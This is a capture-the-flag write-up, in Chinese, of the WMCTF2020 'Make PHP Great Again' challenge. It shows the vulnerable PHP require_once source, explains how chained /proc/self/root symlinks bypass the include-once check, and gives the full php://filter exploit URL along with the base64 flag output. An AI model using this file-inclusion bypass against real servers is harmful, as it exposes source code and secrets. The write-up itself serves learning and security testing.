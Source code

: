 # [WMCTF2020]Make PHP Great Again
![](<./img/Pasted image 20230212095241.png>)

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

参考这篇博客 [Require_once Bypass](https://web.archive.org/web/20230603040425/https://blog.rois.io/2020/require_once-bypass/)

![](<./img/Pasted image 20230212095417.png>)

`/proc/self/root`是指向`/`的符号链接

![](<./img/Pasted image 20230212095650.png>)

最多解析40层符号链接，`self`和`root`均为符号链接，因此复制粘贴二十次就到头了

`php`在到头了之后不会报错，而是将前面40个解析出来的实际路径和后面不能继续解析的带有符号链接的路径拼到一块，当成原始路径。因此在记录已包含文件路径的哈希表中自然查不到该路径，绕过了`once`

```
/?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

```
PD9waHAKCiRmbGFnID0gJ2ZsYWd7YThjNTFkMzgtOGZhNi00ZjkyLWJiYTYtYTQ4N2I3YmY1ZDkzfSc7Cg==
```

![](<./img/Pasted image 20230212101412.png>)
